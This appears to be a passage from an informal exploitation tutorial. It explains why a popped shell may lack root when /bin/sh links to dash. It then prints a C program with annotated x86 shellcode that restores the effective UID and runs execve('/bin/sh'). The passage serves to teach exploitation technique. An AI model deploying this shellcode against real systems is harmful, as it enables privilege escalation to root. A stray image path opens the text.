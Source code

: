 No kidding, don't you find this sssssmokin?
{: .text-justify}

## I'M NOT ROOT, WTF?!

Yeah, it happens... If you pop a shell but you're not **root** it's probably because in your **Linux** distro, **/bin/sh** has been replaced with a **SymLink** to something more elabored, dropping privileges before lauching the **shell**:

```shell
user1@kali:~$ ll /bin/sh
lrwxrwxrwx 1 root root 4 Dec 10 08:23 /bin/sh -> dash
```
It's not very realistic to just install **/bin/sh** tho. That's why you need a more sophisticated **exploit**, fixing the real/effective **UID**/**GID** to **root** before executing the **shell**. Something like **[this exploit][setruidsh_exploit]**:

```c
/*
 *
 * linux/x86 setreuid(geteuid(),geteuid()),execve("/bin/sh",0,0) 34byte universal shellcode
 *
 * blue9057 root@blue9057.com
 *
 * /
int main()
{
    char shellcode[]="\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
                              "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
                              "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80";
    //setreuid(geteuid(),geteuid());
    //execve("/bin/sh",0,0);
    __asm__(""
            "push $0x31;"
            "pop %eax;"
            "cltd;"
            "int $0x80;"        // geteuid();
            "mov %eax, %ebx;"
            "mov %eax, %ecx;"
            "push $0x46;"    // setreuid(geteuid(),geteuid());
            "pop %eax;"
            "int $0x80;"
            "mov $0xb, %al;"
            "push %edx;"
            "push $0x68732f6e;"
            "push $0x69622f2f;"
            "mov %esp, %ebx;"
            "mov %edx, %ecx;"
            "int $0x80;"        // execve("/bin/sh",0,0);
            "");
}
```
But we'll circle back to this complicated matter in a next paper... Eventually.
